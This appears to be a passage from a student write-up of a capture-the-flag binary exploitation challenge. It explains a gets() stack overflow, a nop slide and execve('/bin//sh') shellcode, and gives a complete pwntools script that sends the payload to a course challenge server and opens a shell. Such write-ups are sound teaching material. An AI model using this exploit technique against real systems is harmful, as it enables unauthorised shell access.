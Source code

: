 1. The shellcode itself is a simple execve syscall that runs `/bin/sh`. Technically its `/bin//sh` using the trick from the lecture. I push the string onto the stack, load it in, make the syscall.
2. We write to the buffer using a vulnerable `gets()` call, and the size of the buffer is `0x2000`. With 8 bytes of `eax` and `ebp` on the stack, the return address is after that. Since we want to execute our buffer, we overwrite the return address with an offset to the pointer given. I chose `0xc5`, which worked best for me.
3. Finally the main part of this question. How do I get it to execute the correct code if it jumps to a random address? Answer? A `nop` slide. By padding the shellcode with (1000) `nop` instructions, we can start executing any one of these 1000 `nop` instructions before executing the main shellcode.

```
#!/usr/bin/python3

from pwn import *

#p = process('./shellz')
p = remote('plsdonthaq.me', 3002)

p.readuntil('address: ')
addr = p.readuntil('\n', drop=True)

nops = asm('nop') * 1000
code = asm('''

push 0
push {}
push {}

mov eax, 0xb
mov ebx, esp
mov ecx, 0
mov edx, 0
mov esi, 0

int 0x80

'''.format(u32('//sh'), u32('/bin')))

pause()

padding = (0x2008 - len(nops) - len(code)) * b'A'
ret = p32(int(addr.decode(), 16) - 0xc5)

p.sendline(nops + code + padding + ret)

p.interactive()
```

## find-me

---

